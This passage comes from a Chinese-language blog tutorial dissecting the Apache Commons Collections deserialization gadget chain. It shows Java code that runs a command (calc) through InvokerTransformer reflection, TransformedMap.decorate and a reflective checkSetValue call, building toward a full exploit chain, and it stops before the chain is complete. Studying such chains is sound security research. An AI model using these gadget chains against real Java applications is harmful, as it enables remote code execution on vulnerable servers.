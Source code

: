 ```java
这里我们只需要看到126行就可以了,getClass获取类实例，在使用getMethod获取方法iMethodName，
iParamTypes是方法参数类型，invoke执行，input执行的类iArgs方法参数，那么如何控制iMethodName
他们呢，这里通过构造方法控制，看上图,这里从安全角度来说很后门的写法。

Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);

下面我们通过这个反射执行命令。

Runtime r = Runtime.getRuntime(); 
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
```



<h2 id="xhdJd">0x2.2:初步查找链</h2>
```
下面我们就需要去找哪里调用了transform,需要找不同类的不同的方法如果同方法就没必要了因为没办法在网上走，
在TransformedMap类中存在一个checkSetValue方法调用了transform(图一),接着我们需要valueTransformer是InvokerTransformer类,
在构造方法中可以看到可以修改(图二)，但是存在一个问题我相信你也看到了,构造方法是protected那么就是找同类中调用构造方法或者子类父类,
在当前类中存在一个静态方法(图三)在里面实例化了TransformedMap,所以只需要执行这个静态类就可以控制valueTransformer，
但是又存在一个问题就是图一我们可以看到checkSetValue也protected，这里先使用反射模拟构造执行一下吧。
```

![](https://xinyisleep.github.io/img/2025/commons-collections/5.jpg)

![](https://xinyisleep.github.io/img/2025/commons-collections/6.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/7.png)

```java
下面我们使用反射调用试试

Runtime r = Runtime.getRuntime();
InvokerTransformer exec = (InvokerTransformer)new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Map decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
Class<? extends Map> aClass = decorate.getClass();
Method declaredMethod = aClass.getDeclaredMethod("checkSetValue", Object.class);
declaredMethod.setAccessible(true);
declaredMethod.invoke(decorate, r);
```

```
接着查看同类中或者子类父类中哪里调了checkSetValue，在父类AbstractInputCheckedMapDecorator中一个静态类中调用了checkSetValue,
其实你也发现了这里重载了呸重写了(重载是一个类中多个同名方法不通的参数类型数量顺序，重写是多态父类的方法子类重写让他执行新的行为)(图二)，
到这里其实有的人就有点蒙了哈，Map.Entry中存在一个setValue方法，这里的作用是从HashMap中设置的value,下面是一个例子,
既然知道了他是如何使用的那我们就去找哪里找执行for循环Map的操作并且执行了setValue，好我们先自己构造执行一下试试看下面代码。

```

```java
//Map.Entry中使用setValue执行
Object put = objectObjectHashMap.put("key", "value");
for(Map.Entry entry: objectObjectHashMap.entrySet()){
	if("key".equals(entry.getKey())){
		entry.setValue("aaaa");
		System.out.println(entry.getValue());
	}
}
//构造setValue执行
Runtime r = Runtime.getRuntime();
InvokerTransformer exec = (InvokerTransformer)new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
```